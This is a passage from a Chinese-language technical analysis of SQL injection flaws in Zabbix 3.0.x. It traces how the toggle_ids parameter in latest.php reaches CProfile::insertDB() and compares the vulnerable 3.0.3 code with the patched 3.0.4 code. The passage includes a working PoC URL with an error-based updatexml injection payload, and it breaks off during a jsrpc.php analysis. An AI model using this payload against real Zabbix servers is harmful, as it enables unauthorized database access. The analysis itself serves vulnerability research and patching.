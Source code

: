 总结调用流程：
`latest.php: $_REQUEST['toggle_ids']   --->    CProfile::update()   --->    require_once()   --->   CProfile::flush()   --->   CProfile::insertDB()   --->   CProfile::DBexecute()`

PoC:
需要在登陆的时候抓包取得sid，或者从登陆后的页面源码中取得sid(仅3.0.x适用)
```
.../zabbix/latest.php?output=ajax&sid=b5ddf30e6b2e5899&favobj=toggle&toggle_open_state=1&toggle_ids[]=6666+or+updatexml(1,concat(0x23,(select+user()),0x23),1)+or+1=1)%23
```

#### 3.2 补丁对比
zabbix 最新版3.0.4中，删除了`latest.php`从外部获取`toggle_ids`的代码，没有了可控的参数，这个点已经`无法注入`

同时修复了`CProfile::insertDB()`的缺陷，增加了对`$idx2`的过滤。
```
// zabbix 3.0.3 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，未进行过滤
		'idx2' => $idx2
	];
	......
}
```
```
// zabbix 3.0.4 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，使用zbx_dbstr()进行过滤
		'idx2' => zbx_dbstr($idx2)
	];
	......
}
```


### 4. jsrpc.php页面漏洞触发分析

#### 4.1 漏洞代码分析
`jsrpc.php`中180行
```
......
if ($requestType == PAGE_TYPE_JSON) {
	$http_request = new CHttpRequest();
	$json = new CJson();
	$data = $json->decode($http_request->body(), true);
}
else {
	//关键点，获取输入参数
	$data = $_REQUEST;
}
......
if (!is_array($data) || !isset($data['method'])
```
